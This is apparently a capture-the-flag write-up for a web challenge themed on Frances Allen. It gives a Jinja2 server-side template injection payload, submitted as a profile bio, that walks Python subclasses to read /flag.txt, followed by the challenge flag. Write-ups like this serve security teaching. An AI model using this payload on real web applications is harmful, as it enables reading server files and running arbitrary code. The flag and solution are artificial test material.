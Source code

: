 # France Allen

## Prompt

[Frances Elizabeth Allen](https://en.wikipedia.org/wiki/Frances_Allen) (August 4, 1932 – August 4, 2020) was an American computer scientist and pioneer in the field of optimizing compilers. Allen was the first woman to become an IBM Fellow, and in 2006 became the first woman to win the Turing Award. Her achievements include seminal work in compilers, program optimization, and parallelization. She worked for IBM from 1957 to 2002 and subsequently was a Fellow Emerita. - [Wikipedia Entry](https://en.wikipedia.org/wiki/Frances_Allen)

Chal: Build your best attack against this [webapp](https://cyberheroines-web-srv5.chals.io/) and inspire [the first woman to win the Turing Award](https://www.youtube.com/watch?v=NjoU-MjCws4)

## Solution

The webapp suffers a [SSTI](https://kleiber.me/blog/2021/10/31/python-flask-jinja2-ssti-example/) vulnerability that can execute arbitrary code by submitting ```{{'abc'.__class__.__base__.__subclasses__()[92].__subclasses__()[0].__subclasses__()[0]('/flag.txt').read()}}``` as the bio.

flag: ``chctf{th3re_W4s_n3v3r_a_d0ubt_th4t_1t_w4s_1mp0rt4nt}``